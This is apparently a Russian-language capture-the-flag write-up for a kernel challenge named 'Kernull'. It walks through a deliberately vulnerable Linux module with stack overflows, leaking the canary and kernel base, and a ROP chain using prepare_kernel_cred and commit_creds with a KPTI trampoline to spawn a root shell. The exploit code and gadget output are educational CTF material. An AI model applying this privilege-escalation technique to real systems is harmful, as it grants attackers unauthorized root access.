 # Kernull

## Problem

Задание представляет собой классический таск на эксплуатацию ядра Linux с одной особенностью.

Давайте рассмотрим исходный код модуля, который использовался в данном задании.

```c
struct file_operations module_fops =
  {
   owner:   THIS_MODULE, read:    module_read,
   write:   module_write,
   open:    module_open,
   release: module_close,
   lock:    module_lock,
  };
.......
static ssize_t module_read(struct file *file, char __user *buf, size_t count, loff_t *f_pos) {
  char kbuf[MAX_SIZE] = { 0 };
  printk(KERN_INFO "module_read called\n");

  if (count >= MAX_SIZE) {
    memcpy(kbuf, globalBuffer, MAX_SIZE);
  } else {
      memcpy(kbuf, globalBuffer, count);
  }

  if (lock) {
      printk(KERN_INFO "ERROR: reading failed");
      return -EINVAL;
  }

  if (_copy_to_user(buf, kbuf, count)) {
    printk(KERN_INFO "ERROR: copy_to_user failed\n");
    return -EINVAL;
  }

  return count;
}

static ssize_t module_write(struct file *file, const char __user *buf, size_t count, loff_t *f_pos) {
    char kbuf[MAX_SIZE] = { 0 };

  printk(KERN_INFO "module_write called\n");

  if (count > MAX_SIZE && !lock) {
      printk(KERN_INFO "ERROR: writing failed");
      return -EINVAL;
  }
//
  if (_copy_from_user(kbuf, buf, count)) {
    printk(KERN_INFO "ERROR: copy_from_user failed\n");
    return -EINVAL;
  }
  memcpy(globalBuffer, kbuf, MAX_SIZE);

  return count;
}

static int module_lock(struct file *, int, struct file_lock *) {
    pr_info("Lock state: %d", lock);
    lock = lock != 1;
    return 0;
}
```

Первым же делом мы замечаем явное нарушение логики как в функции чтения, так и в функции записи: обе операции используются с буфером фиксированной длины, в то время как пользователь может контролировать длину как чтения, так и записи.

```c
    char kbuf[MAX_SIZE] = { 0 };
    _copy_from_user(kbuf, buf, count);
    ....
    _copy_to_user(buf, kbuf, count);
```

Также во избежании Ctrl-C, Ctrl-V эксплойтов в задаче присутствует глобальная переменная `lock`, которая, буду активированной не дает произвести чтение и останавливает запись, будучи деактивированной.
```c
  if (lock) {
      printk(KERN_INFO "ERROR: reading failed");
      return -EINVAL;
  }

  if (count > MAX_SIZE && !lock) {
      printk(KERN_INFO "ERROR: writing failed");
      return -EINVAL;
  }
```
 Данная мера довольно просто обходится: в эксплойте перед чтением и запись необходимо будет вызвать фунцию `lockf(fd, 0, 0)`, где `fd` - файловый дескриптор, полученный из функции `open()`.

### Exploitation

#### Open device

Сначала получим доступ к модулю, открыв его функцией `open()`.

```c
int fd = open("/dev/kernull", O_RDWR);
    if (fd == -1) {
        puts("FAIL");
        return 1;
    }
```
#### Getting the leak

Затем получим базовый адрес ядра, используя переполнение во время чтения, поскольку в задании включен KASLR.

```c
    char buf[0x600];
    read(fd, buf, 0x410);

    canary = *(size_t *)&buf[0x400];
    long long leak = *(unsigned long *)&buf[0x408];
    printf("[+] leak: %p\n", leak);
    printf("[+] canary: %p\n", canary);

    long long kbase = leak - 0x92 - (0xffffffff81209310 - 0xffffffff81000000);
    printf("[+] kernel base is at: %p\n", kbase);
```

Значение стековой канарейки уже лежит в нашем буфере, поэтому для эксплуатации мы будем использовать его же.
Все гаджеты получим при помощь `ROPgadget` использованном на нашем `vmlinux`. (Для того чтобы достать ELF файл vmlinux из сжатого ядра можно воспользоваться [этим скриптом](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux?_x_tr_sl=auto&_x_tr_tl=ru&_x_tr_hl=ru&_x_tr_pto=wapp)). 

```bash
Kernull/src [main●] » ./extract_kernel.sh bzImage > vmlinux
Kernull/src [main●] » ls
extract_kernel.sh  bzImage  module  root  vmlinux
Kernull/src [main●] » ROPgadget vmlinux | grep 'mov rdi, rax' | grep 'ret' | head -n 3
0xffffffff82f961da : add byte ptr [rax], al ; mov rdi, rax ; rep movsd dword ptr [rdi], dword ptr [rsi] ; ret
0xffffffff81c689e9 : add byte ptr [rax], al ; mov rdi, rax ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
0xffffffff82f961d8 : add byte ptr [rdx], al ; add byte ptr [rax], al ; mov rdi, rax ; rep movsd dword ptr [rdi], dword ptr [rsi] ; ret
Kernull/src [main●] »
```

Сам ROP-chain довольно простой

```c
    unsigned long *rop_chain = (unsigned long *)&buf[0x408];
    *rop_chain++ = pop_rdi;
    *rop_chain++ = 0;
    *rop_chain++ = prepare_kernel_cred;
    *rop_chain++ = mov_rdi_rax;
    *rop_chain++ = commit_creds;
    *rop_chain++ = trampoline;
    *rop_chain++ = 0x414141414141414;
    *rop_chain++ = 0x414141414141414;
    *rop_chain++ = (unsigned long) &spawnShell;
    *rop_chain++ = user_cs;
    *rop_chain++ = user_rflags;
    *rop_chain++ = user_rsp;
    *rop_chain++ = user_ss;
```
Рассмотрим, что тут происходит:

 - Вызов prepare_kernel_cred(0), который вернет нам адрес структуры task_cred с правами root.
 - Вызов commit_creds() c полученной структурой - это повысит наши привилегии до root.
 - Вызов KPTI-trampoline для успешного возвращения в Userspace
 - И вызов функции, которая запустит для нас shell с уже повышенными правами, вместе с возвратом значений регистров.

Код функции `spawnShell`

```c
static void spawnShell() {
  char *argv[] = { "/bin/sh", NULL };
  execve("/bin/sh", argv, NULL);
}
```
Полный код эксплойта есть в репозитории.

## Послесловие

Если все эти слова для вас ничего не значат и вы не понимаете, что происходит, не следует расстраиваться. Данный write-up рассчитан на людей, которые имели опыт в эксплуатации ядра. Я советую вам ознакомиться с [этим](https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/) замечательным циклом и вернуться к этому врайтапу.

